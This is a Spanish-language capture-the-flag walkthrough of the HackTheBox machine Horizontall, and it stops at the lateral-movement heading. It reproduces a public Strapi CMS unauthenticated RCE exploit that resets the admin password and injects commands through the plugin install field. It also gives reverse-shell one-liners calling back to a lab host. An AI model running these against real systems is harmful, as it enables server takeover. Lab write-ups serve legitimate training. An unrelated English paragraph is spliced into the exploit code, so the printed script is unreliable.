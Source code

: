 Muy buenas a todos hoy traere la máquina Easy de HTB llamada Horizontall

# SOBRE HORIZONTALL

Es una máquina Linux fácil, en los que encontraremos dos servicios expuestos "HHTP" y "SSH", deberemos enumerar la página y ver sobre que framework esta construida.

Nos fijaremos en el codigo fuente, el CMS que utiliza la CVE que utilizaremos, etc. Hasta encontrar Root.

# INICIO

Para empezar siempre se hacen dos cosas básicas si queremos tres.
1- Identificar el sistema operativo al que nos enfrentamos (en este caso Linux)
2- Comprobar que hay conectividad entre ambas máquinas
3- Hacer un escaneo de puertos.

Todo comprobado utilizaremos el comando que siempre suelo utilizar para escanear puertos.

```
sudo nmap -sCV -T4 --min-rate 1000 IP
```
Como vemos nos encontramos los dos típicos puertos 22 - ssh y 80 - http

Lo primero que haremos sera conectanor a dicha página web pero su dominio nos redirige a "horizontall.htb" con lo cual lo agregamos a nuestro DNS.

```
echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts
```
Como podemos observar en la página no encontramos nada interesante, pero si nos vamos al apartado "Network" de nuestro navegador, podemos identificar varios archivos ".js" en los que no fijaremos y uno muy llamativo sobre la app 
"app.c68eb362.js" si nos vamos a dicho fichero, nos encontraremos un varullo de cosas, pero lo pasaremos por la maravillosa página "beautifier" 
```
methods: {
 getReviews: function() {
 var t = this;
 r.a.get("http://apiprod.horizontall.htb/reviews").then((function(s) {
 return t.reviews = s.data
 }
```
En la que nos encontramos un "VHOST" cual añadiremos a nuestro DNS.
```
echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts
```
Cuando la visitamos nos encontramos una página en blanco en la que pone "Welcome"

Probamos a mirar el código fuente pero en este caso no encontramos nada, con lo cual pasaremos a la siguiente forma de enumerar, que seran en este caso algun dominio, redireccion posible, utilizaremos en este caso gobuster.

En este caso posiblemente necesitaremos el repositorio famoso "seclist" tenemos dos formas de descargarlo, llendonos al github o la forma simple
```
sudo apt install seclist
```
y utilizamos el escaner
```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/seclists/Discovery/WebContent/raft-small-words.txt -o gobuster -t 50
```
Gracias a esto encontramos la redireccion "admin" y nos llevara a un logeo.

Nos encontramos con una página web que utiliza [strapi](https://strapi.io) es un open source que utiliza "node.js"

Podemos buscar vulnerabilidades de strapi, yo utilizare la herramienta "searchsploit"
```
searchsploit strapi
```
Para utilizar esta herramienta, dependeremos de la base de datos "exploit db" si queremos instalar esta funcion
```
sudo apt -y install exploitdb
```
Nos encontramos con unos cuantos exploits pero uuno nos llama la atención "3.0.0-beta.17.7" para vulnerar el CMS Strapi con (RCE), sin necesidad de autentificar, en el panel de administrador. Sin necesidad de sus credenciales y nos redirigue a este archivo " multiple/webapps/50239.py"

```
searchsploit -m 50239.py
```
```
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE)
(Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609
#!/usr/bin/env python3
import requests
import json
from cmd import Cmd
import sys
if len(sys.argv) != 2:
 print("[-] Wrong number of arguments provided")
 print("[*] Usage: python3 exploit.py <URL>\n")
 sys.exit()
class Terminal(Cmd):
 prompt = "$> "
 def default(self, args):
 code_exec(args)
def check_version():
 global url
 print("[+] Checking Strapi CMS Version running")
 version = requests.get(f"{url}/admin/init").text
 version = json.loads(version)
 version = version["data"]["strapiVersion"]
 if version == "3.0.0-beta.17.4":
 print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
 else:
 print("[-] Version mismatch trying the exploit anyway")
def password_reset():
 global url, jwt
 session = requests.session()
 params = {"code" : {"$gt":0},
 "password" : "SuperStrongPassword1",
 "passwordConfirmation" : "SuperStrongPassword1"
 }
 output = session.post(f"{url}/admin/auth/reset-password", json = params).text
 response = json.loads(output)
 jwt = response["jwt"]
 username = response["user"]["username"]
Inside the script there is a function called check_version() that makes a request to /admin/init to check
if the remote instance of Strapi is vulnerable to this exploit. We could visit this endpoint to verify manually if
we can use this exploit.
The version matches the one that the exploit needs to work so we can try executing the script to get a
reverse shell. From the source code we can see that it expects a URL parameter as input.
 email = response["user"]["email"]
 if "jwt" not in output:
 print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
 sys.exit(1)
 else:
 print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+]
Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON
Web Token: {jwt}\n\n")
def code_exec(cmd):
 global jwt, url
 print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't
expect to see output")
 headers = {"Authorization" : f"Bearer {jwt}"}
 data = {"plugin" : f"documentation && $({cmd})",
 "port" : "1337"}
 out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
 print(out.text)
if __name__ == ("__main__"):
 url = sys.argv[1]
 if url.endswith("/"):
 url = url[:-1]
 check_version()
 password_reset()
 terminal = Terminal()
 terminal.cmdloop()
```
Nos vamos a la ruta y probamos si el exploit funciona
```
python3 50239.py http://api-prod.horizontall.htb
```
Como podemos ver el RCE funciona correctamente pero tenemos una Shell llamada invisible porque no podemos ver nada de lo que hacemos, con lo cuál vamos a hacer una reverse shell para poder utilizarlo todo plenamente.
Para empezar nos ponemos en escucha en el puerto que queramos
```
sudo nc -lvnp 9001
```
y mandamos una revershe sell a dicha escucha desde la máquina victima
```
bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1
```
Esta no funciona probemos con otra
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.214 4444 >/tmp/f
```
Con esta estamos dentro. 
También darnos cuenta que nos han dado un token de autentificacion con el usuario y contraseña del panel de admin.
```
 admin:SuperStrongPassword1
```
## MOVIMIENTO LATERAL
